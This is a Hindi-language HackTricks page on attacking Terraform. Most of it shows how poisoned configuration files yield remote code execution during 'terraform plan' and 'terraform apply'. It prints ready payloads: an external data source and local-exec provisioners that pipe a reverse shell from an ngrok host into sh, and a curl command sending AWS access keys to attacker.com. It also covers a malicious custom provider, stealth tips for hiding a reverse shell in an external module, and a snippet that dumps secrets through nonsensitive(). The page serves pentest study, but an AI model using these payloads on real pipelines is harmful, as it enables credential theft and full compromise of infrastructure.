 # Terraform सुरक्षा

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## मूल जानकारी

[डॉक्स से: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform एक **infrastructure as code tool** है जो आपको **cloud और on-prem resources** को मानव-पठनीय कॉन्फ़िगरेशन फ़ाइलों में परिभाषित करने देता है जिन्हें आप संस्करण, पुन: उपयोग, और साझा कर सकते हैं। आप फिर अपने संपूर्ण इंफ्रास्ट्रक्चर को उसके जीवनचक्र के दौरान प्रावधान और प्रबंधित करने के लिए एक सुसंगत कार्यप्रणाली का उपयोग कर सकते हैं। Terraform कंप्यूट, स्टोरेज, और नेटवर्किंग संसाधनों जैसे निम्न-स्तरीय घटकों के साथ-साथ DNS प्रविष्टियों और SaaS सुविधाओं जैसे उच्च-स्तरीय घटकों का प्रबंधन कर सकता है।

### Terraform कैसे काम करता है?

Terraform उनके एप्लिकेशन प्रोग्रामिंग इंटरफेस (APIs) के माध्यम से cloud प्लेटफॉर्म और अन्य सेवाओं पर संसाधनों को बनाता है और प्रबंधित करता है। Providers Terraform को वस्तुतः किसी भी प्लेटफॉर्म या सेवा के साथ काम करने की अनुमति देते हैं जिसका एक सुलभ API है।

![](<../.gitbook/assets/image (33).png>)

HashiCorp और Terraform समुदाय पहले ही **1700 से अधिक providers** लिख चुके हैं जो हजारों विभिन्न प्रकार के संसाधनों और सेवाओं का प्रबंधन करते हैं, और यह संख्या बढ़ती जा रही है। आप [Terraform Registry](https://registry.terraform.io/) पर सभी सार्वजनिक रूप से उपलब्ध providers को पा सकते हैं, जिसमें Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, और बहुत कुछ शामिल हैं।

Terraform कार्यप्रणाली के तीन चरण होते हैं:

* **लिखें:** आप संसाधनों को परिभाषित करते हैं, जो कई cloud providers और सेवाओं में हो सकते हैं। उदाहरण के लिए, आप एक कॉन्फ़िगरेशन बना सकते हैं जो एक Virtual Private Cloud (VPC) नेटवर्क में वर्चुअल मशीनों पर एक एप्लिकेशन को डिप्लॉय करता है जिसमें सुरक्षा समूह और एक लोड बैलेंसर होता है।
* **योजना:** Terraform एक कार्यान्वयन योजना बनाता है जो मौजूदा इंफ्रास्ट्रक्चर और आपके कॉन्फ़िगरेशन के आधार पर इंफ्रास्ट्रक्चर को बनाने, अपडेट करने, या नष्ट करने का वर्णन करता है।
* **लागू करें:** अनुमोदन पर, Terraform सही क्रम में प्रस्तावित संचालन करता है, किसी भी संसाधन निर्भरताओं का सम्मान करते हुए। उदाहरण के लिए, यदि आप एक VPC के गुणों को अपडेट करते हैं और उस VPC में वर्चुअल मशीनों की संख्या बदलते हैं, तो Terraform VPC को फिर से बनाएगा इससे पहले कि वह वर्चुअल मशीनों को स्केल करे।

![](<../.gitbook/assets/image (81).png>)

## Terraform लैब

बस अपने कंप्यूटर में terraform इंस्टॉल करें।

यहाँ आपके पास एक [गाइड](https://learn.hashicorp.com/tutorials/terraform/install-cli) है और यहाँ आपके पास terraform डाउनलोड करने का [सबसे अच्छा तरीका](https://www.terraform.io/downloads) है।

## Terraform में RCE

Terraform में **कोई प्लेटफॉर्म नहीं है जो एक वेब पेज या नेटवर्क सेवा को उजागर करता है** जिसे हम गिन सकते हैं, इसलिए, terraform को समझौता करने का एकमात्र तरीका **terraform कॉन्फ़िगरेशन फ़ाइलों को जोड़ने/संशोधित करने में सक्षम होना** है।

हालांकि, terraform एक **बहुत ही संवेदनशील घटक** है जिसे समझौता करना क्योंकि इसे ठीक से काम करने के लिए **विशेषाधिकार प्राप्त पहुँच** होगी।

एक हमलावर के लिए terraform चल रहे सिस्टम को समझौता करने का मुख्य तरीका **terraform कॉन्फ़िगरेशन स्टोर करने वाले रिपॉजिटरी को समझौता करना** है, क्योंकि किसी बिंदु पर वे **व्याख्या किए जाएंगे**।

वास्तव में, वहाँ समाधान हैं जो **PR बनाने के बाद स्वचालित रूप से terraform plan/apply को निष्पादित करते हैं**, जैसे कि **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

यदि आप terraform फ़ाइल को समझौता करने में सक्षम हैं तो जब कोई `terraform plan` या `terraform apply` को निष्पादित करता है तो आप RCE को अलग-अलग तरीकों से प्रदर्शन कर सकते हैं।

### Terraform plan

Terraform plan terraform में **सबसे अधिक इस्तेमाल किया जाने वाला कमांड** है और डेवलपर्स/समाधान जो terraform का उपयोग करते हैं इसे हर समय कॉल करते हैं, इसलिए RCE प्राप्त करने का **सबसे आसान तरीका** यह सुनिश्चित करना है कि आप एक terraform कॉन्फ़िगरेशन फ़ाइल को जहर दें जो `terraform plan` में मनमाने कमांड को निष्पादित करेगा।

#### एक बाहरी प्रदाता का उपयोग करना

Terraform [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) प्रदान करता है जो Terraform और बाहरी प्रोग्रामों के बीच इंटरफेस करने का एक तरीका प्रदान करता है। आप `plan` के दौरान मनमाने कोड को चलाने के लिए `external` डेटा स्रोत का उपयोग कर सकते हैं।

`terraform plan` को निष्पादित करते समय एक rev shell को निष्पादित करने के लिए terraform कॉन्फ़िगरेशन फ़ाइल में निम्नलिखित जैसा कुछ इंजेक्ट करना:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### एक कस्टम प्रोवाइडर का उपयोग

एक हमलावर [Terraform Registry](https://registry.terraform.io/) में एक [कस्टम प्रोवाइडर](https://learn.hashicorp.com/tutorials/terraform/provider-setup) भेज सकता है और फिर इसे एक फीचर ब्रांच में Terraform कोड में जोड़ सकता है ([यहाँ से उदाहरण](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
प्रोवाइडर `init` में डाउनलोड किया जाता है और जब `plan` निष्पादित होता है तो वह दुर्भावनापूर्ण कोड चलाएगा

आप एक उदाहरण [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec) पर देख सकते हैं

#### बाहरी संदर्भ का उपयोग करना

उल्लिखित दोनों विकल्प उपयोगी हैं लेकिन बहुत गुप्त नहीं हैं (दूसरा अधिक गुप्त है लेकिन पहले से अधिक जटिल है)। आप इस हमले को और भी **गुप्त तरीके से** कर सकते हैं, इन सुझावों का पालन करके:

* टेराफॉर्म फाइल में सीधे रेव शेल जोड़ने के बजाय, आप एक **बाहरी संसाधन लोड कर सकते हैं** जिसमें रेव शेल होता है:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
आप रिवर्स शेल कोड [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) में पा सकते हैं।

* बाहरी संसाधन में, **ref** सुविधा का उपयोग करके रेपो के अंदर एक शाखा में **terraform rev shell code** को छिपाने के लिए कुछ इस तरह का प्रयोग करें: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply को सभी परिवर्तनों को लागू करने के लिए निष्पादित किया जाएगा, आप इसका दुरुपयोग करके RCE प्राप्त करने के लिए **local-exec** के साथ **एक दुर्भावनापूर्ण Terraform फाइल** इंजेक्ट कर सकते हैं।\
आपको केवल यह सुनिश्चित करना होगा कि निम्नलिखित में से कुछ पेलोड `main.tf` फाइल में समाप्त हो जाए:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
**पिछली तकनीक से सुझावों का पालन करें** और इस हमले को **बाहरी संदर्भों का उपयोग करके अधिक गुप्त तरीके से करें**।

## सीक्रेट्स डंप्स

आप **terraform द्वारा उपयोग किए जा रहे सीक्रेट मानों को डंप कर सकते हैं** `terraform apply` चलाकर, terraform फाइल में कुछ इस तरह जोड़कर:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## ऑडिट टूल्स

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec आपके terraform कोड का स्टैटिक विश्लेषण करता है ताकि संभावित गलत कॉन्फ़िगरेशन का पता लगाया जा सके।
* [**terascan**](https://github.com/tenable/terrascan): Terrascan Infrastructure as Code के लिए एक स्टैटिक कोड विश्लेषक है।

## संदर्भ

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) को **फॉलो** करें।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>
